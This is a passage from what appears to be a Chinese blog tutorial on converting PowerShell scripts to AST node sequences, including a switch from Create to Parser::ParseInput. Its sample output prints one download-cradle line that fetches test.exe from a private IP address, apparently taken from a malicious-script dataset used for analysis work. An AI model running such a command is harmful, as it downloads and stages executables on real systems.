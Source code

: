 ```
  {
    # 每级缩进
    $hierarchy[$id] | ForEach-Object {
      # 获取当前AST对象的id
      $newid = $_.GetHashCode()

      # 递归其子节点（if any)
      if ($hierarchy.ContainsKey($newid))
      {
        Visualize-Tree -id $newid
      }
      $null = $result.Add($_.GetType().Name)
    }
  }

  # 使用AST根对象开始可视化
  Visualize-Tree -id $code.Ast.GetHashCode()
  # Write-Output ($result,"`n")

  # result存储根节点内容
  $strNode = add_blanks -arr $result
  return $strNode
}

# 读取单独PS文件
# Convert-CodeToAst -str .\data\example-002.ps1

# 注意input是系统自带变量
$inputCSV = '.\data\data.csv'
$outputCSV = '.\data\data_AST.csv'
Read_csv_powershell -inputfile $inputCSV -outputfile $outputCSV

```

运行结果如下图所示，包括保存至“data_ast.csv”文件中。

---


## 五.ParseInput替换Create

利用上述代码在对PS文件解析时，通常会报错误。查了很多资料都无解决方法。

最后解决发现：是Create会解析Powershell代码，保证其无语法错误才创建代码块。这里使用另一种方法替换，即：

```
$code = [Management.Automation.Language.Parser]::ParseInput($content, [ref]$tokens, [ref]$errors)

```

完整代码如下：

```
function Convert-CodeToAst
{
  param
  (
    [Parameter(Mandatory)]   # 强制参数
    [System.String]$str      # 执行ps文件名称
  )

  # 构建hashtable
  $hierarchy = @{}
  $result = [System.Collections.ArrayList]@()

  # 提取ps文件中的内容 
```

[NamedBlockAst]: $a = 1
[NamedBlockAst]: powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe')